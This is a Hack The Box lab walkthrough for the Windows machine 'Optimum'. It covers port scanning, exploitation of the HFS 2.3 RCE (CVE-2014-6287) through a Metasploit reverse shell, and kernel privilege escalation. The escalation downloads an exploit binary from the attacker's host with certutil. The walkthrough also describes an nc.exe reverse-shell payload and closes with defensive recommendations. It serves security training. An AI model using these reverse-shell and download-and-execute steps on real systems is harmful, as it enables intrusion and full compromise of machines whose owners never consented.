

# HTB - Optimum

**IP Address:** `10.10.10.8`  
**OS:** Windows Server 2012 R2  
**Difficulty:** Easy  
**Tags:** #HFS, #CVE-2014-6287, #Metasploit, #Windows-Exploitation, #ReverseShell, #PrivilegeEscalation

---
## Synopsis

Optimum is an easy Windows machine running **HFS (HttpFileServer) 2.3**.  
The exploitation path involves identifying the exposed HFS service, leveraging **CVE-2014-6287 (HFS template macro RCE)** to gain remote code execution, and obtaining a foothold with **Metasploit**.  
Privilege escalation is achieved by using **Windows Exploit Suggester (WES-NG)** to identify a kernel exploit, downloading the compiled binary, and executing it to escalate to `NT AUTHORITY\SYSTEM`.  

---
## Skills Required

- Basic knowledge of web enumeration  
- Familiarity with SearchSploit and Metasploit  
- Understanding of privilege escalation in Windows  

## Skills Learned

- Exploiting **HFS 2.3 RCE (CVE-2014-6287)**  
- Using **Metasploit** for stable shells on Windows targets  
- Applying **WES-NG** to identify privilege escalation vectors  
- Transferring binaries to Windows with `certutil.exe`  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We start by verifying host availability with ICMP:

```bash
ping -c 1 10.10.10.8
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.8 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format


Extract open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

Run a deeper scan on the identified port:

```bash
nmap -p80 -sC -sV 10.10.10.8 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```


**Findings:**  

| Port | Service | Version/Description |
| ---- | ------- | ------------------- |
| 80   | HTTP    | HFS 2.3             |

---
## 2. Web Enumeration

Browsing to the site shows the **HFS web interface**:


HFS is a lightweight HTTP file server often used to share files. Since it allows template macros, it may be vulnerable to **RCE**.  

Check for exploits with SearchSploit:

```bash
searchsploit HFS
```


One of the results (39161.py) corresponds to **CVE-2014-6287 (RCE)**.

Inspect the exploit code:

```bash
searchsploit -x windows/remote/39161.py
```


**Vulnerability:**  
- HFS interprets template macros like `{.exec|...}`, leading to RCE.  

**Exploit Flow (3 HTTP requests):**  
1. `save|` → Create `C:\Users\Public\script.vbs` to download `nc.exe`.  
2. `exec|` → Run `cscript.exe script.vbs` to fetch the binary.  
3. `exec|` → Launch `nc.exe -e cmd.exe` to connect back.  

---
## 3. Exploitation

Check for a Metasploit module:

```bash
msfconsole
search hfs
```


The fourth exploit is the correct one, so let's configure it:

```bash
payload windows/meterpreter/reverse_tcp
rhosts 10.10.10.8
lhost 10.10.14.10
lport 443
run
```

A Meterpreter session is established.


✅ **User flag obtained**

---
## 4. Foothold

Attempting access to Administrator’s directory:


Access denied. Next step: privilege escalation.

Check user privileges:

```bash
whoami /all
```



Minimal privileges. Let’s gather system info:

```bash
systeminfo
```


---
## 5. Privilege Escalation

Save the output for analysis:

```bash
systeminfo > systeminfo.txt
```

Use **Windows Exploit Suggester (WES-NG):**

```bash
python3 wes.py systeminfo.txt
```


The screenshot below shows just a portion of the exploits identified for this Windows version.

One promising exploit is **MS16-098 (CVE-2016-0099)** → [ExploitDB 41020](https://www.exploit-db.com/exploits/41020).

Instead of compiling, download the prebuilt binary from [Offensive Security GitLab](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/41020.exe):

Transfer it to the victim with `certutil`:

```bash
certutil.exe -f -urlcache -split http://10.10.14.10:8000/privesc.exe privesc.exe
```


Execute the binary:


🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified only port 80 open.  
2. **Web Enumeration** → Discovered HFS 2.3 vulnerable to CVE-2014-6287.  
3. **Exploitation** → Used Metasploit HFS exploit for a reverse shell.  
4. **Privilege Escalation** → Identified kernel exploit with WES-NG, executed precompiled binary, escalated to SYSTEM.  

---
## Defensive Recommendations

- Update or remove unsupported software such as **HFS 2.3**.  
- Apply latest **Windows security patches** (MS16-098 and others).  
- Restrict external access to administrative services.  
- Monitor unusual web requests containing **HFS macros** (`{.exec|...}`).  
- Use application whitelisting to prevent execution of untrusted binaries.  
